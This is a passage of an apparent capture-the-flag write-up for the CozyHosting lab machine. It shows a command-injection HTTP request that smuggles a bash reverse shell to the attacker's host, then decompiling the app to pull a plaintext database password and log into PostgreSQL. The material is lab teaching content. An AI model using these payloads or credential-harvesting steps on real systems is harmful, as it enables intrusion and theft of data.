 Where `%09` is the tab URL encoded character. This gets me a ping back


## Foothold

Sending the following payload while authenticated as `kanderson`:
```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://cozyhosting.htb
Connection: close
Cookie: JSESSIONID=E8735D16809559854F63731D775B55EF
Upgrade-Insecure-Requests: 1

host=10.10.14.25&username=$(bash%09-i%09>%26/dev/tcp/10.10.14.25/1337%090>%261)kanderson1
```

Gets me a reverse shell


## Privilege Escalation

Decompiling `/app/cloudhosting-0.0.1.jar` with `jadx`, found a `application.properties`

```
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

I use the [hacktricks/pentesting-postgresql](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) cheatsheet

Use credentials to authenticate to postgresql server:
```bash
$ psql -h 127.0.0.1 -U postgres -W
Password: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# 
```
